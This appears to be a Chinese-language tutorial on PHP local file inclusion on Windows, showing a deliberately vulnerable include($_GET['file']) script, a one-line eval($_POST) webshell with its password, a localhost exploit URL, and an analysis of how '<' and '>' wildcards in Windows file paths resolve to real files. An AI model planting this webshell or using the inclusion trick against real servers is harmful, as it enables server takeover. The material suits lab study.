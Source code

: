 # 相关代码：
1. php中代码：
```php
<?php
	include($_GET['file']);
?>
```
2. 123456.txt中代码：
```php
<?php phpinfo() ?>
```
3. 123456.TXT里面可以换成一句话木马，代码：
```php
<?php eval($_POST["admin"]) ?>
```
url:http://127.0.0.1/1.php?file=12<<
密码：admin
**注意**：txt里面书写php代码不能换行写，最好是在同一行书写【原因待查明】

![acccc1eb9b5be30878b4f979f2edadfc.jpg.png](https://ooo.0o0.ooo/2017/03/04/58ba6bd6354d3.png)

# windows的文件系统机制引发的PHP路径爆破问题分析

## 开场白

此次所披露的是以下网页中提出的问题所取得的测试结果：

[http://code.google.com/p/pasc2at/wiki/SimplifiedChinese](http://code.google.com/p/pasc2at/wiki/SimplifiedChinese)
```php
<?php
	for ($i=0; $i<255; $i++) {
		$url = '1.ph' . chr($i);
		$tmp = @file_get_contents($url);
		if (!empty($tmp)) echo chr($i) . " ";
	}
?>
```
已知1.php存在，以上脚本访问的结果是：
```
1.php
1.phP
1.ph<
1.ph>
```
都能得到返回。
前两种能返回结果是总所周知的（因为windows的文件系统支持大小的互转的机制），另外的两种返回引起了我们的注意。

测试php版本：PHP4.9,PHP5.2,PHP5.3,PHP6.0

测试系统：WINXP SP3 X32,WINXP SP2 X64，WIN7,WIN2K3
